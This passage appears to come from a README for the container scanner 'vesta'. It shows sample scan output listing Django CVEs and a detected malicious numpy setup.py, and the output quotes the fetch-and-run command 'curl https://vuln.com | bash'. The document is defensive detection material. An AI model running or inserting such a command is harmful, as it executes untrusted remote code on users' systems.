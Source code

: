 ```bash
|     |                    |                 |                  |       |          | in Django 1.11.x before                                          |
|     |                    |                 |                  |       |          | 1.11.23, 2.1.x before 2.1.11,                                    |
|     |                    |                 |                  |       |          | and 2.2.x before 2.2.4.                                          |
|     |                    |                 |                  |       |          | Due to the behaviour of                                          |
|     |                    |                 |                  |       |          | the underlying HTMLParser,                                       |
|     |                    |                 |                  |       |          | django.utils.html.strip_tags                                     |
|     |                    |                 |                  |       |          | would be extremely ...                                           |
+-----+                    +-----------------+------------------+-------+----------+------------------------------------------------------------------+
| 210 |                    | 2.2.3           | CVE-2019-14234   |   9.8 | critical | An issue was discovered in                                       |
|     |                    |                 |                  |       |          | Django 1.11.x before 1.11.23,                                    |
|     |                    |                 |                  |       |          | 2.1.x before 2.1.11, and 2.2.x                                   |
|     |                    |                 |                  |       |          | before 2.2.4. Due to an error                                    |
|     |                    |                 |                  |       |          | in shallow key transformation,                                   |
|     |                    |                 |                  |       |          | key and index lookups for                                        |
|     |                    |                 |                  |       |          | django.contrib.postgres.f ...                                    |
+-----+--------------------+-----------------+------------------+-------+----------+------------------------------------------------------------------+
| 211 | python3.6 - numpy  | 1.24.2          |                  |   8.5 | high     | Malicious package is detected in                                 |
|     |                    |                 |                  |       |          | '/usr/local/lib/python3.6/site-packages/numpy/setup.py',         |
|     |                    |                 |                  |       |          | malicious command "curl https://vuln.com | bash" are             |
|     |                    |                 |                  |       |          | detected.                                                        |
+-----+--------------------+-----------------+------------------+-------+----------+------------------------------------------------------------------+

```

3. 使用vesta检查Docker的基线配置

也可以在docker中使用
```bash
make run.docker
```
